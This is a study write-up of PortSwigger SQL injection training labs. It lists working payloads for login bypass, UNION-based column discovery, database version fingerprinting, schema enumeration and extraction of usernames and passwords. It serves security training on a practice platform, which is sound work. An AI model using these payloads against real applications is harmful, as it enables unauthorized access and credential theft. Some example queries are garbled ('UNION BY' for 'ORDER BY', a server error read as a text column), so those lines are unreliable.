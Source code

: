 <div align="center">
  <h1>------------------------------ SQLi LABS 001 -------------------------------</h1>
</div>

# [CheatSheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## Lab 1: `Retrieving hidden data`, where you can modify a SQL query to return additional results. [Link](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)
- Original Query: `SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
- Modified: ![image](https://github.com/user-attachments/assets/e4236490-1079-4f23-92c9-a4097f63a50c)
- Query to executed by DB after injections: `SELECT * FROM products;`

### Injections:
- `'OR '1'='1` - This payload appends an OR condition that always evaluates to true.
- `'OR 1=1 --` - This payload appends an OR condition that always evaluates to true, commenting out the remaining portion of the original query.
- `'OR 'x'='x` - This payload compares a string with itself, resulting in a true condition.

## Lab 2: SQL injection vulnerability allowing `login bypass` [Link](https://portswigger.net/web-security/sql-injection/lab-login-bypass)
- Original Query: `SELECT firstname FROM users WHERE username='administrator' AND password='p@ssw0rd'`
- payload: `administrator'--`
- Modified: `SELECT firstname FROM users WHERE username='administrator'--' AND password='admin'`
- Query to executed by DB after injections: `SELECT firstname FROM users WHERE username='administrator';`

### Injections:
- `'admin'--'` - Commenting out the remaining portion of the original query.

## Lab 3: SQL injection UNION attack, determining the number of columns returned by the query
1. ' ORDER BY 1-- injecting a series of ORDER BY clauses and incrementing the specified column index until an error occurs.
- Original Query: `SELECT * FROM products WHERE category = 'Gifts'`
- Modified: `SELECT * FROM products WHERE category = 'Gifts' UNION BY 4--`
- Query to executed by DB after injections: `It should throw a Server side Error 500`

2. Submitting a series of `UNION SELECT` payloads specifying a different number of null values, will help in determining the columns unless we get the error.

- Original Query: `SELECT * FROM products WHERE category = 'Gifts'`
- Modified: `SELECT * FROM products WHERE category = 'Gifts' UNION SELECT NULL,NULL,NULL,NULL--`
- Query to executed by DB after injections: `It should throw a Server side Error 500`


## Lab 4: SQL injection UNION attack, finding a column containing text
- First, Determine the number of columns returned by the query.
- Second, Determine a column that is compatible with string data. 

- Original Query: `SELECT * FROM products WHERE category = 'Gifts'`
- Modified: `SELECT * FROM products WHERE category = 'Gifts'+UNION+BY+4--` (Server Error, means number of columns = 3)
- Modified: `SELECT * FROM products WHERE category = 'Gifts'+UNION+SELECT+'a',NULL,NULL--` (Server Error, means this column accepting text value)
- Modified: `SELECT * FROM products WHERE category = 'Gifts'+UNION+SELECT+NULL,NULL,'a'--` (Server Error, means this column accepting text value)
- Modified: `SELECT * FROM products WHERE category = 'Gifts'+UNION+SELECT+NULL,'a',NULL--` ('a' determine that the 2nd column accepting text value)

## Lab 5: SQL injection UNION attack, `retrieving data from other tables` [Link](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-using-a-sql-injection-union-attack-to-retrieve-interesting-data/sql-injection/union-attacks/lab-retrieve-data-from-other-tables#)

- Original Query: `SELECT * FROM products WHERE category = 'Gifts'`
- Modified: `SELECT * FROM products WHERE category = 'Gifts'UNION+SELECT+username,password+FROM+users--` This should return all the users available in USERS table. (Since, table and columns name were given in Lab description. We can take it from there)
- Login > Enter the Administrator Cred > Done
- ![image](https://github.com/user-attachments/assets/003e7533-e7c9-401d-824d-fe7c7a34fe98)


## Lab 6: SQL injection UNION attack, retrieving multiple values in a single column [Link](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-retrieving-multiple-values-within-a-single-column/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)

- Original Query: `SELECT * FROM products WHERE category = 'Gifts'`
- Modified:
```
'Union+select+Null,NULL-- To determine the No. of columns

'Union+select+Null,'XYZ'-- To determine which column allows TEXT values

'Union+select+Null,username+from+users-- To retrieve Single TEXT value

'Union+select+Null,password+from+users-- To retrieve Single TEXT value

'Union+select+Null,username||password+from+users-- To retrieve Multiple TEXT value

'Union+select+Null,username||'~'||password+from+users-- To retrieve Multiple TEXT value with separator
```
- Login with Admin Creds to Solve the LAb
- ![image](https://github.com/user-attachments/assets/d73f2473-adfa-4ba2-beac-dfc914e9e354)

## Lab 7: SQL injection attack, querying the database type and version on Oracle `Union Query` [Link](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-examining-the-database-in-sql-injection-attacks/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)
- On Oracle databases, every SELECT statement must specify a table to select FROM.
- If your `UNION SELECT` attack does not query from a table, you will still need to include the `FROM` keyword followed by a valid table name.
- There is a `built-in table on Oracle called 'dual'` For example: `UNION SELECT 'abc' FROM dual`

1. For Oracle:
- Original Query: `SELECT * FROM products WHERE category = 'Gifts'`
- Modified: `SELECT * FROM products WHERE category = 'Gifts' UNION SELECT 'abc','def' FROM dual--`
- Query to executed by DB after injections: `SELECT * FROM products WHERE category = 'Gifts'' UNION SELECT 'abc','def' FROM dual--`
- To get the Oracle Version: `SELECT * FROM products WHERE category = 'Gifts'union+SELECT+banner,NULL+FROM+v$version--`

- Injections: `'union+SELECT+banner,NULL+FROM+v$version--` - Concate the second query with Union clause in Original Query.

2. For MYSQL:
- Original Query: `SELECT * FROM products WHERE category = 'Gifts'`
- Modified:
```
- 'UNION+SELECT+NULL,NULL#        Determine the Number of Columns, By comments it's MYSQL DB
- 'UNION+SELECT+@@version,'abc'#  Refer cheatsheet for cmd
- 'UNION+SELECT+@@version,+NULL#
```

## Lab 9: SQL injection attack, listing the database contents on non-Oracle databases [Link](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-examining-the-database-in-sql-injection-attacks/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)
- Original Query: `SELECT * FROM products WHERE category = 'Gifts'`
- A `Common set of views` available in Non-Oracle DBs to list out the tables in the database: `information_schema.tables` as `SELECT * FROM information_schema.tables`
- Also, To list the columns in individual tables: `information_schema.columns` as `SELECT * FROM information_schema.columns WHERE table_name = 'Users'`
- ![image](https://github.com/user-attachments/assets/bf84e527-c095-4c97-ab4f-eb516c8fd6da)

- Modified:
```
'UNION+SELECT+NULL,NULL-- To check the No. of Columns

'UNION+SELECT+version(),NULL--  To check DB version - Mysql

'Union+SELECT+TABLE_NAME,NULL+FROM+information_schema.tables-- To return TABLE_NAME from information_schema.tables views

'UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_wifyly'-- To return column_name from information_schema.columns views

'UNION+SELECT+username_wcliss,password_ozuvxe+FROM+users_wifyly-- TO extract the info from table
```


/*The NEXT*/
